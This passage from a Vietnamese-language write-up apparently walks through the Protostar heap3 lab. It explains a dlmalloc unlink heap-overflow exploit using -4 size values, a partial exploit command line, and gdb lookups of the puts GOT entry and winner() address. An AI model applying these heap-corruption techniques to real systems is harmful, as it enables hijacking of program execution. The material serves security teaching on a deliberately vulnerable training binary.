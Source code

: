 +) Có một rào cản cuối cùng đối với việc khai thác mà chúng ta cần phải vượt qua. Việc ghi vào `size` và `prev_size` yêu cầu sử dụng NULL byte. Chúng tôi không thể làm như vậy vì bất kỳ byte NULL nào mà chúng tôi chuyển vào chương trình dưới dạng đối số sẽ được coi là kết thúc chuỗi.

+) Có một cách là nếu cung cấp một giá trị như `0xFFFFFFFC` (-4 dưới dạng số nguyên có dấu), bộ cấp phát sẽ không đặt `chunk` trong `fastbin` vì `0xFFFFFFFC` khi là một số nguyên không dấu là một giá trị lớn hơn nhiều so với 64. Do tràn số nguyên trong quá trình số học con trỏ, bộ cấp phát nghĩ rằng `chunk` trước đó thực sự bắt đầu ở 4 byte sau thời điểm bắt đầu của `chunk` hiện tại. [Here](http://phrack.org/issues/57/8.html) mục `[ 3.6.1.2 - Proof of concept ]`

<h3 align="center"><img src="https://github.com/nigma2Own/Blogs/blob/main/z_Other/unlink1.jpg"></h3>

Cụ thể là sau khi check `previous chunk` là một `free chunk` thông qua `bit P`, trình quản lý phân bổ sẽ xác định địa chỉ của `previous chunk` của `current chunk` (chunk đang được tiến hành free) bằng cách lấy giá trị là địa chỉ của `current chunk` trừ đi giá trị tại member đầu tiên `(prev_size)` của current chunk đế có được địa chỉ chunk sẽ tiến hành `unlink()`.

=> Vì thế do trừ đi cho (-4) - tức là +4 dẫn đến phân bổ cho rằng `previous chunk` thực sự bắt đầu ở 4 bytes sau thời điểm bắt đầu của `current chunk`. 

### Tóm lại
+) Tổng hợp những gì chúng ta đã học được cho đến nay, chúng ta nhận được thông tin đầu vào sau cho chương trình. Chúng tôi ghi đè `prev_size` và `size` bằng -4. `fd` và `bk` tương ứng là `\x42\x42\x42\x42` và `\x43\x43\x43\x43`.

```
root@protostar:/opt/protostar/bin# ./heap3 AAAA `python -c 'print "A" * 32 + "\xfc\xff\xff\xff" + "\xfc\xff\xff\xff" + "A" * 4 + "\x42\x42\x42\x42\x43\x43\x43\x43"'` D
```

Bây giờ là cần tìm xem nên ghi vào đâu để thay đổi luồng thực thi. Chúng ta có thể ghi đè GOT  của `puts()` để trỏ tới `winner()`.

Địa chỉ GOT của `puts`.

```
0x08048935 <main+172>:  call   0x8048790 <puts@plt>
0x0804893a <main+177>:  leave
0x0804893b <main+178>:  ret
---Type <return> to continue, or q <return> to quit---c
End of assembler dump.
(gdb) x/2i 0x8048790
0x8048790 <puts@plt>:   jmp    DWORD PTR ds:0x804b128 <-- GOT của puts
0x8048796 <puts@plt+6>: push   0x68
(gdb)
```

Chúng ta cần trừ `0x804b128` đi 12 byte để `unlink()` sẽ ghi đúng vào địa chỉ của `GOT puts` khi cộng 12, khi đó ta cần ghi `\x1c\xb1\x04\x08`.

Bây giờ là địa chỉ của `winner`.

```
(gdb) print &winner
$1 = (void (*)(void)) 0x8048864 <winner>
```
